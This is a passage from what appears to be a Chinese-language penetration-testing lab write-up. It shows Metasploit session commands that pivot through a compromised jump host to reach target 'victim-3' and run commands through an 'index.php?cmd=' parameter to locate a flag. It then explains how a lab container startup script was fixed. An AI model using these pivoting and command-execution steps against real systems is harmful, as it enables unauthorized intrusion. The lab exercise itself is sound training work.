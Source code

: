 [![rec_4](https://asciinema.org/a/4mgUb4myS0CADvTERxdi30BpB.svg)](https://asciinema.org/a/4mgUb4myS0CADvTERxdi30BpB)

2. 攻破靶标 `victim-3`

```bash
# 利用跳板机 192.170.84.5 的 shell 会话「踩点」最终靶标
sessions -c "curl http://192.178.85.2" -i 5
# 发现没安装 curl ，试试 wget
sessions -c "wget http://192.178.85.2" -i 5
# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.178.85.2 -O /tmp/result && cat /tmp/result" -i 5
# 发现 get flag 提示
sessions -c "wget 'http://192.178.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
```

[![rec_5](https://asciinema.org/a/nFWnjq51ky4Hac4CvEIZmOVTg.svg)](https://asciinema.org/a/nFWnjq51ky4Hac4CvEIZmOVTg)

### 问题

#### nginx-php-flag 镜像的容器启动失败

![error_4_1](../img/lihan3238_doc/error_4_1.png)

- 原因：查看容器日志发现有失败的 ping 的记录；
进而进入容器查看，发现有一个 2.sh 的文件中包含 `ping  aa.25qcpp.dnslog.cn`,实际上 ping 不通；
- 解决：修改 `ping aa.25qcpp.dnslog.cn` 这行为`ping 127.0.0.1`，保证容器持续运行，重新构建镜像并运行容器。

```bash
# 2.sh
#!/bin/bash
/etc/init.d/nginx start&&/etc/init.d/php7.2-fpm start&&ping  127.0.0.1

# Dockerfile
FROM vulshare/nginx-php-flag:latest

COPY ./2.sh /2.sh

RUN chmod +x /2.sh

CMD ["/2.sh"]

# 构建镜像
docker build -t vulshare/nginx-php-flag:latest .

# 重新启动场景
```
